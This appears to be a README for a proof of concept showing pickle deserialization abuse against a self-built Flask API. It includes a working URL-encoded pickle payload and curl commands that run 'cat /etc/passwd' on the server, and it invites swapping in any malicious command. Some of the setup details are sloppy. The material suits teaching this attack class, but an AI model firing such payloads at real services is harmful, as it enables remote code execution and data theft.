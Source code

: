 # api_deserialization_abuse
POC code illustrating a deserialization abuse over an API
 
Steps to produce a Deserialization attack/abuse against the API:
 
Step 1: Print out a serialized, URL encoded string of the command you wish to execute on a remote target (API Server).
- On the API server, install python 2 with apt install python 2.
- Create a python script. This script will produce a serialized output of the adversary’s command/object. In this POC code, the command is `cat /etc/passwd` but you can replace it with any (malicious) command you want.
 
- Chmod the genpickle.py script with 777 rights, and run the script
- Copy the output that appears on screen and paste it into the URLencoder at https://www.urlencoder.org/. Copy this encoded string for use by client in step 2.
 
Step 2. Create the Flask script that will produce the API endpoint URL and deserialize the command object
- On the API server, install pip3 with apt install python-pip3.
- Install flask with pip install flask.
- Chmod the python script api.py
 
Note: You’ll notice the urllibe.parse import in the script. This is required for any POST parameter parsing. I don’t know why, but when POSTing parameters, you need to handle the values/strings differently from when doing a GET with query parameters in the URL. 
 
- Run the flask API service with ./api.py.
- Send the serialized command object to the API server as a parameter value.
- On an API client, perform a test using cURL to see if the API service works. Insert your url-encoded string accordingly.
 
``
GET query: curl <Server_URL>:<Port>/?cmd=<url_encoded_string>
Example curl command (executed from localhost of server) for returning all etc/passwd users and passwords:
curl http://127.0.0.1/?cmd=csubprocess%0Acheck_output%0Ap1%0A%28%28lp2%0AS%27cat%27%0Ap3%0AaS%27%2Fetc%2Fpasswd%27%0Ap4%0AatRp5%0A.
``

``
POST query: curl POST <Server_URL>:<Port> -d ‘{“cmd”:“csubprocess%0Acheck_output%0Ap1%0A%28%28lp2%0AS%27cat%27%0Ap3%0AaS%27%2Fetc%2Fpasswd%27%0Ap4%0AatRp5%0A.”}’
Example curl command (executed from localhost of server) for returning all etc/passwd users and passwords:
curl http://127.0.0.1/?cmd=csubprocess%0Acheck_output%0Ap1%0A%28%28lp2%0AS%27cat%27%0Ap3%0AaS%27%2Fetc%2Fpasswd%27%0Ap4%0AatRp5%0A.
``
